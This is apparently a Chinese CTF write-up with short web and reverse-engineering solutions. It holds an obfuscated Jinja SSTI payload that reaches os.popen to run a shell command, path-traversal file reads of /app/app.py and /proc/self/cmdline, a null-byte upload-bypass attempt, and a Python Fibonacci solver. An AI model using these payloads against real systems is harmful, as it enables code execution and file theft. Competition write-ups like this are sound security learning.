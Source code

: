 # web
### On1y0ne
?file=/app/app.py
?file=/proc/self/cmdline
伪造cookie,上传文件,
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230716110307.png)

?file=/tmp/a.txt

### 无中生有
#SSTI 
```php
{%print(config|attr('%25c%25c%25c%25c%25c%25c%25c%25c%25c'|format(95,95,99,108,97,115,115,95,95,))|attr('%25c%25c%25c%25c%25c%25c%25c%25c'|format(95,95,105,110,105,116,95,95,))|attr('%25c%25c%25c%25c%25c%25c%25c%25c%25c%25c%25c'|format(95,95,103,108,111,98,97,108,115,95,95,))|attr('%25c%25c%25c%25c%25c%25c%25c%25c%25c%25c%25c'|format(95,95,103,101,116,105,116,101,109,95,95,))('o'~'s')|attr('pop'~'en')('cat%09app?py')|attr('read')())%}
```

直接读取galf,一开始没注意,还读了半天的pyc然后反编译...

### 不知所措
```php
<?php
    header("Location: /index.php");
    $file = $_FILES['file'];
    if(!$file){
        exit("请勿上传空文件");
    }
    $dir = "upload/";
    $name = $_FILES['file']['name'];
    $tmp = $_FILES['file']['tmp_name'];
    $ext = substr(strrchr($name, '.'), 0);
    if(preg_match('/p|h|s|[0-9]/i',$ext)){
        $ext = ".jpg";
        $name = time().$ext;
    }
    $path = $dir.$name;
    move_uploaded_file($tmp, $path);
?>
```
存在00截断漏洞,但是00也会影响后缀名的判断??
`a.php%00.jpg`
后缀名还是会变为jpg

---
# reverse

### Window
异或一下俩字符即可

### time
分析算法可知是要求一个递归数列的第n项斐波那契数列,拷打gpt给了一个快速矩阵求余算法
```python
string='abcdef0987654321+/'
def matrix_pow_mod(A, n, mod):
    res = [[1, 0], [0, 1]]  # 初始化为单位矩阵

    while n > 0:
        if n % 2 == 1:
            res = matrix_multiply_mod(res, A, mod)
        A = matrix_multiply_mod(A, A, mod)
        n //= 2

    return res

def matrix_multiply_mod(A, B, mod):
    C = [[0, 0], [0, 0]]

    for i in range(2):
        for j in range(2):
            for k in range(2):
                C[i][j] = (C[i][j] + A[i][k] * B[k][j]) % mod

    return C

def fibonacci_mod(n, mod):
    if n == 0:
        return 0

    A = [[1, 1], [1, 0]]
    res = matrix_pow_mod(A, n-1, mod)

    return res[0][0] % mod

# def which(n):
#     dp=[0]*(n+1)
#     dp[0]=1
#     if(n==0):
#         return 1
#     dp[1]=6
#     for i in range(2,n+1):
#         dp[i]=i+4*dp[i-1]+1
#     return dp[n]
if __name__ == '__main__':
    which=[1 ,6 ,27 ,112 ,453 ,1818 ,7279 ,29124 ,116505 ,466030 ,1864131 ,7456536 ,29826157 ,119304642 ,477218583 ,1908874348 ,7635497409 ,30541989654 ,122167958635 ,488671834560 ,1954687338261 ,7818749353066 ,31274997412287 ,125099989649172 ,500399958596713 ,2001599834386878 ,8006399337547539 ,32025597350190184 ,128102389400760765 ,512409557603043090 ,2049638230412172391 ,8198552921648689596]
    for i in range(32):
        print(string[(fibonacci_mod(which[i]+2,17))],end='')
```

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-16   11:02